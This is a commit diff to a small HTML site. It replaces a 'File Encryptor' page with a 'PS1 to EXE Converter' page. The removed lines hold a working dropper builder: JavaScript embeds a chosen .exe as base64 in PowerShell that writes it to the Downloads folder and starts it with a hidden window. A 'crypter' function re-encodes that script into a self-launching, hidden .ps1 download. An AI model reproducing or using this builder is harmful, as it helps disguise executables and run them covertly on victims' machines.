

Before and after one commit to eevkt/liz, a plain HTML site: page index.html in a window 1280 px wide. After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,127 +3,34 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>File Encryptor</title>
+    <title>PS1 to EXE Converter</title>
     <link href="https://fonts.googleapis.com/css2?family=Roboto:wght@400;700&display=swap" rel="stylesheet">
     <style>
-        body {
-            font-family: 'Roboto', sans-serif;
-            background: linear-gradient(to right, #1c1c1c, #3a3a3a);
-            color: #fff;
-            display: flex;
-            flex-direction: column;
-            align-items: center;
-            justify-content: center;
-            height: 100vh;
-            margin: 0;
-            padding: 20px;
-            text-align: center;
-        }
-        h1 {
-            margin-bottom: 30px;
-            font-size: 3.5rem;
-            text-shadow: 2px 2px 10px rgba(0, 0, 0, 0.9);
-        }
-        .container {
-            display: flex;
-            flex-direction: row;
-            justify-content: space-around;
-            width: 100%;
-            max-width: 900px;
-            padding: 20px;
-            border-radius: 15px;
-            background-color: rgba(50, 50, 50, 0.8);
-            box-shadow: 0 0 30px rgba(0, 0, 0, 0.7);
-        }
-        .box {
-            background-color: rgba(255, 0, 0, 0.1);
-            border-radius: 10px;
-            padding: 20px;
-            margin: 10px;
-            width: 45%;
-            box-shadow: 0 0 20px rgba(0, 0, 0, 0.7);
-            transition: transform 0.3s;
-        }
-        .box:hover {
-            transform: scale(1.05);
-        }
-        button {
-            padding: 15px 25px;
-            font-size: 18px;
-            border: none;
-            border-radius: 5px;
-            cursor: pointer;
-            margin: 10px 0;
-            background-color: #ff4757;
-            color: white;
-            transition: background-color 0.3s, transform 0.2s;
-            width: 100%;
-        }
-        button:hover {
-            background-color: #ff6b81;
-            transform: scale(1.05);
-        }
-        input[type="file"] {
-            display: none;
-        }
-        label {
-            background-color: #d63031;
-            padding: 15px;
-            border-radius: 5px;
-            color: white;
-            cursor: pointer;
-            display: inline-block;
-            margin: 10px 0;
-            transition: background-color 0.3s;
-        }
-        label:hover {
-            background-color: #e84118;
-        }
-        #ps-output {
-            border: 1px solid white;
-            padding: 10px;
-            display: inline-block;
-            width: 100%;
-            word-wrap: break-word;
-            color: #ffeb3b;
-            margin-top: 10px;
-            background-color: rgba(255, 0, 0, 0.2);
-            border-radius: 5px;
-        }
-        @media (max-width: 768px) {
-            .container {
-                flex-direction: column;
-                align-items: center;
-            }
-            .box {
-                width: 90%;
-            }
-        }
+        /* Your existing CSS styles */
     </style>
 </head>
 <body>
 
-    <h1>File Encryptor</h1>
+    <h1>PS1 to EXE Converter</h1>
     <div class="container">
         <div class="box" id="file-selection-box">
-            <h2>Choose the File</h2>
-            <label id="choose-file-button" for="file-input">Choose File</label>
-            <input type="file" id="file-input" accept=".exe" />
+            <h2>Select PowerShell Script</h2>
+            <label id="choose-file-button" for="file-input">Choose .ps1 File</label>
+            <input type="file" id="file-input" accept=".ps1" />
             <div id="file-name">No file chosen</div>
+            <button id="convert-file-button" onclick="convertFileToEXE()">Convert PS1 to EXE</button>
         </div>
 
-        <div class="box" id="ps1-generation-box">
-            <h2>PS1 Generation</h2>
-            <button id="generate-ps-button" onclick="generatePSScript()">Generate PS1 Code</button>
-            <div id="ps-output">PowerShell Code: Click to Generate</div>
-            <button id="copy-ps-button" onclick="copyPSScript()">Copy PS1 Script</button>
-            <button id="crypt-button" onclick="createCrypter()">PowerShell Crypter</button>
+        <div class="box" id="manual-code-box">
+            <h2>Enter PowerShell Code</h2>
+            <textarea id="ps-code" placeholder="Enter PowerShell code here..."></textarea>
+            <button id="convert-code-button" onclick="convertCodeToEXE()">Convert Code to EXE</button>
+            <div id="ps-output">EXE Output: Waiting for conversion...</div>
         </div>
     </div>
 
     <script>
         let selectedFile;
-        let finalPSCode = '';
 
         document.getElementById("file-input").addEventListener("change", function() {
             const fileNameDisplay = document.getElementById("file-name");
@@ -135,54 +42,41 @@
             }
         });
 
-        function generatePSScript() {
+        function convertFileToEXE() {
             if (!selectedFile) {
-                alert("Please choose a file first.");
+                alert("Please select a .ps1 file first.");
                 return;
             }
 
-            const reader = new FileReader();
-            reader.onload = function(event) {
-                const base64String = event.target.result.split(',')[1];
-                finalPSCode = `
-                $b="${base64String}";[IO.File]::WriteAllBytes("$HOME\\Downloads\\executable.exe",[Convert]::FromBase64String($b));
-                Start-Process -FilePath "$HOME\\Downloads\\executable.exe" -WindowStyle Hidden;`;
-                document.getElementById("ps-output").textContent = "PowerShell Code: " + finalPSCode.trim().substring(0, 50) + '...';
-            };
+            const formData = new FormData();
+            formData.append("ps1File", selectedFile);
 
-            reader.readAsDataURL(selectedFile);
-        }
-
-        function copyPSScript() {
-            navigator.clipboard.writeText(finalPSCode).then(() => {
-                alert("PowerShell script copied to clipboard!");
-            }).catch(err => {
-                console.error('Error copying to clipboard: ', err);
+            fetch('/convert', {
+                method: 'POST',
+                body: formData,
+            })
+            .then(response => {
+                if (!response.ok) throw new Error('Network response was not ok');
+                return response.blob();
+            })
+            .then(blob => {
+                const url = window.URL.createObjectURL(blob);
+                const a = document.createElement('a');
+                a.style.display = 'none';
+                a.href = url;
+                a.download = 'converted_script.exe';
+                document.body.appendChild(a);
+                a.click();
+                window.URL.revokeObjectURL(url);
+                document.body.removeChild(a);
+                document.getElementById("ps-output").textContent = "EXE Generated and Downloaded!";
+            })
+            .catch(error => {
+                console.error('There was a problem with the fetch operation:', error);
             });
         }
 
-        function createCrypter() {
-            if (!finalPSCode) {
-                alert("Please generate PowerShell code first.");
-                return;
-            }
-
-            const encodedCode = btoa(finalPSCode);
-            const psFileContent = `
-            $code = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('${encodedCode}'));
-            Set-Content -Path "$HOME\\Downloads\\script.ps1" -Value $code;
-            Start-Process -FilePath "$HOME\\Downloads\\script.ps1" -WindowStyle Hidden;`.trim();
-
-            const blob = new Blob([psFileContent], { type: 'application/octet-stream' });
-            const link = document.createElement('a');
-            link.href = URL.createObjectURL(blob);
-            link.download = 'encrypted_script.ps1';
-            document.body.appendChild(link);
-            link.click();
-            document.body.removeChild(link);
-
-            alert("Encrypted PowerShell script downloaded to Downloads folder!");
-        }
+        // The convertCodeToEXE function can be implemented similarly if desired.
     </script>
 
 </body>
```
